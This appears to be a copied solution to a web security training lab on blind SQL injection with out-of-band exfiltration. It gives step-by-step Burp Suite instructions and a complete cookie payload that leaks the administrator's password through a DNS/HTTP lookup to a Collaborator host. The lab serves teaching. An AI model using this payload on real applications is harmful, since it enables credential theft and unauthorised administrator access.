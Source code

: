 ```yaml
---
dg-publish: true
---
```







1. Visit the front page of the shop, and use [Burp Suite Professional](https://portswigger.net/burp/pro) to intercept and modify the request containing the `TrackingId` cookie.
2. Modify the `TrackingId` cookie, changing it to a payload that will leak the administrator's password in an interaction with the Collaborator server. For example, you can combine SQL injection with basic [XXE](https://portswigger.net/web-security/xxe) techniques as follows:`TrackingId=x'+UNION+SELECT+EXTRACTVALUE(xmltype('<%3fxml+version%3d"1.0"+encoding%3d"UTF-8"%3f><!DOCTYPE+root+[+<!ENTITY+%25+remote+SYSTEM+"http%3a//'||(SELECT+password+FROM+users+WHERE+username%3d'administrator')||'.BURP-COLLABORATOR-SUBDOMAIN/">+%25remote%3b]>'),'/l')+FROM+dual--`
3. Right-click and select "Insert Collaborator payload" to insert a Burp Collaborator subdomain where indicated in the modified `TrackingId` cookie.
4. Go to the Collaborator tab, and click "Poll now". If you don't see any interactions listed, wait a few seconds and try again, since the server-side query is executed asynchronously.
5. You should see some DNS and HTTP interactions that were initiated by the application as the result of your payload. The password of the `administrator` user should appear in the subdomain of the interaction, and you can view this within the Collaborator tab. For DNS interactions, the full domain name that was looked up is shown in the Description tab. For HTTP interactions, the full domain name is shown in the Host header in the Request to Collaborator tab.
6. In the browser, click "My account" to open the login page. Use the password to log in as the `administrator` user.